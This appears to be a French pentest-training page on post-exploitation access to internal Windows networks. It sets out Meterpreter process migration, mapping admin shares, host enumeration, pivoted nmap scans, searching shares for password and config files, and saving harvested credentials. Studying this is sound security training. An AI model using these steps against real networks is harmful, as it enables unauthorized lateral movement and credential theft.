 # 🌐 Accès aux Réseaux Internes

[← Retour au pivoting](README.md) | [← Table des matières](../README.md)

## 📋 Table des Matières
- [Migration de Processus](#migration-de-processus)
- [Mappage de Lecteurs Réseau](#mappage-de-lecteurs-réseau)
- [Découverte de Ressources](#découverte-de-ressources)
- [Accès aux Shares SMB](#accès-aux-shares-smb)
- [Troubleshooting](#troubleshooting)

## Migration de Processus

### Pourquoi migrer ?
Certains accès réseau nécessitent un contexte utilisateur plutôt que SYSTEM.

### Processus recommandés
```bash
# Lister les processus disponibles
ps

# Migration vers processus utilisateur (recommandé)
migrate -N explorer.exe

# Alternatives stables
migrate -N winlogon.exe
migrate -N svchost.exe
```

**Concept :** `explorer.exe` s'exécute dans le contexte de l'utilisateur connecté, permettant l'accès aux ressources réseau avec les permissions utilisateur.

## Mappage de Lecteurs Réseau

### Commandes de base
```bash
# Depuis une session shell sur la machine compromise
shell

# Mappage avec credentials par défaut
net use Z: \\target_interne\C$
net use Y: \\target_interne\Documents

# Mappage avec credentials spécifiques
net use Z: \\target_interne\C$ /user:domain\username password
```

### Gestion des mappages
```bash
# Lister les mappages actifs
net use

# Exploration des données
dir Z:
dir Y:

# Suppression de mappages
net use Z: /delete
net use * /delete  # Supprimer tous les mappages
```

## Découverte de Ressources

### Énumération des machines
```bash
# Découverte des machines du réseau
net view

# Ressources partagées d'une machine spécifique
net view \\target_interne

# Informations sur le domaine
net view /domain
```

### Scan via pivot (avec proxychains)
```bash
# Scan de découverte réseau
proxychains nmap 192.168.1.0/24 -sn

# Scan des services SMB
proxychains nmap 192.168.1.0/24 -p 445 -sT --open
```

## Accès aux Shares SMB

### Workflow complet
```bash
# 1. Migration si nécessaire
migrate -N explorer.exe

# 2. Découverte des ressources
shell
net view target_interne

# 3. Test d'accès aux shares administratifs
net use \\target_interne\C$ 
net use \\target_interne\ADMIN$

# 4. Accès aux shares utilisateur
net use \\target_interne\Users
net use \\target_interne\shared
```

### Exploration des données
```bash
# Navigation dans les shares
dir \\target_interne\C$\Users
dir \\target_interne\C$\Windows\System32

# Recherche de fichiers sensibles
dir \\target_interne\C$\*.txt /s
dir \\target_interne\C$\*password* /s
dir \\target_interne\C$\*config* /s
```

## Troubleshooting

### Erreurs courantes

#### "Access Denied"
```bash
# Vérifier le contexte utilisateur
whoami

# Essayer la migration
migrate -N explorer.exe

# Tester avec credentials explicites
net use \\target\share /user:domain\user password
```

#### "Network path not found"
```bash
# Vérifier la connectivité réseau
ping target_interne

# Vérifier les routes de pivoting
run autoroute -p

# Tester via proxychains
proxychains telnet target_interne 445
```

#### "The specified network name is no longer available"
```bash
# Session réseau expirée, reconnecter
net use \\target_interne\IPC$ /delete
net use \\target_interne\IPC$
```

### Optimisations

#### Réduction des timeouts
```bash
# Configurer des timeouts plus courts
net config server /autodisconnect:5

# Utiliser des commandes avec timeout
timeout 30 net view target_interne
```

#### Gestion des credentials
```bash
# Sauvegarder les credentials découverts
echo "target_interne\administrator:password123" >> creds.txt

# Utiliser runas pour changer de contexte
runas /user:domain\administrator cmd
```

## Références

- [Pivoting avec Metasploit](../05-post-exploitation/pivoting-metasploit.md)
- [Énumération SMB](../03-enumeration/smb-samba.md)
- [CrackMapExec](../06-tools/crackmapexec.md)